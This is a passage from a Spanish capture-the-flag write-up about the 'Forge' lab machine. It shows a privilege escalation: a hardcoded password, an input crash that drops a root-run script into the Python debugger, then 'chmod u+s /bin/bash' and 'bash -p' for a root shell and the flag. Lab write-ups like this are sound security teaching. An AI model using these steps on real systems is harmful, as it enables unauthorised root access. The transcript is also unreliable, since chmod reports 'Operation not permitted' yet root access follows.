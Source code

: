 ```console
-bash-5.0$ python3 /opt/remote-manage.py
Listening on localhost:36393
```

Desde otra terminal conectada por SSH a la máquina Forge nos conectamos con **`netcat`** al puerto que se nos ha abierto, ya que sólo permite conexiones desde localhost:

```console
-bash-5.0$ nc localhost 36393
Enter the secret passsword: secretadminpassword
Welcome admin!

What do you wanna do: 
[1] View processes
[2] View free memory
[3] View listening sockets
[4] Quit
```

Necesitamos escapar de este menú, algo que es bastante fácil si hemos entendido el código anterior. Fijaos en esta línea:

```python
option = int(clientsock.recv(1024).strip())
```

Está convirtiendo a un número entero el valor que se introduce en el script como opción (el menú), pero no está verificando que el input sea explícitamente un número,
por lo tanto basta con introducir cualquier otro carácter para romper la ejecución normal del script:

```console
-bash-5.0$ python3 /opt/remote-manage.py
Listening on localhost:36393
invalid literal for int() with base 10: b'a'
> /opt/remote-manage.py(27)<module>()
-> option = int(clientsock.recv(1024).strip())
(Pdb) 
```

En este punto podemos importar el módulo **`os`** de Python, ejecutar la siguiente orden de sistema para cambiar los permisos de bash y ganar acceso como root:

```console
(Pdb) import os
(Pdb) os.system ('chmod u+s /bin/bash')
chmod: changing permissions of '/bin/bash': Operation not permitted
256
(Pdb) exit
-bash-5.0$ /bin/bash -p
bash-5.0# whoami
root
bash-5.0# cd /root
bash-5.0# cat root.txt
00173db93bb35dca36d6e6c2cdaa7b39
```
